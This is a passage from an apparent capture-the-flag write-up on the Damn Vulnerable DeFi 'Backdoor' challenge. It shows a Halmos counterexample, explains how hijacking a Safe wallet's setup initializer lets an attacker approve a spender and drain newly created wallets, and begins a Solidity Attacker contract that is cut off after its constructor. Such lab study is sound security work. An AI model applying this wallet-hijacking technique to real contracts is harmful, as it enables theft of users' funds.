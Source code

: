 ```javascript
             p_refundReceiver_address_dd44e1b_20 = 0x0000000000000000000000000000000000000000000000000000000000000001
             p_safeTxGas_uint256_f825f64_16 = 0x0000000000000000000000000000000000000000000000000000000000000001
             p_saltNonce_uint256_eeb7667_66 = 0x0000000000000000000000000000000000000000000000000000000000000000
             p_signatures_length_2d407bc_22 = 0x0000000000000000000000000000000000000000000000000000000000000400
             p_spender_address_93cdbf9_129 = 0x0000000000000000000000000020040000000000000000000000000400000000
             p_to_address_7a0345f_113 = 0x00000000000000000000000000000000000000000000000000000000aaaa0007
             p_to_address_b19e0c9_11 = 0x00000000000000000000000000000000000000000000000000000000aaaa0007
             p_value_uint256_41861fd_12 = 0x0000000000000000000000000000000000000000000000000000000000000000
             ...
```
This counterexample contains a lot of noise, but you can extract the essence of the bug from it. Anyone can create a **Safe** wallet for **Alice**. But at the same time, during creation, an attacker can call absolutely any code on behalf of **Alice's** **SafeProxy**, using `setup()` and passing the appropriate code as an `initializer`. So Halmos forced **SafeProxy** to execute `approve` for some `symbolic_spender`, thereby breaking the invariant for the absence of `allowance`. 
This, in fact, is enough for the attack scenario to become obvious: when creating **Safe** wallets for **Alice**, **Bob**, **Charlie** and **David**, we make an `approve` for a contract that we control and withdraw funds from the newly created wallet.

Note that using the **Safe** contract as a proxy for this attack is optional. It's just that Halmos found such a way.
## Creating an attack
Attacker:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity =0.8.25;

import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {SafeProxyFactory} from "@safe-global/safe-smart-account/contracts/proxies/SafeProxyFactory.sol";
import {SafeProxy} from "safe-smart-account/contracts/proxies/SafeProxy.sol";
import "../../src/backdoor/WalletRegistry.sol";
import {Safe} from "@safe-global/safe-smart-account/contracts/Safe.sol";

contract Attacker {
    DamnValuableToken token;
    SafeProxyFactory factory;
    WalletRegistry registry;
    address singleton;
    address recovery;

    constructor(DamnValuableToken _token, 
                SafeProxyFactory _factory, 
                WalletRegistry _registry, 
                address _singleton, 
                address _recovery) {
        token = _token;
        factory = _factory;
        registry = _registry;
        singleton = _singleton;
        recovery = _recovery;
    }

```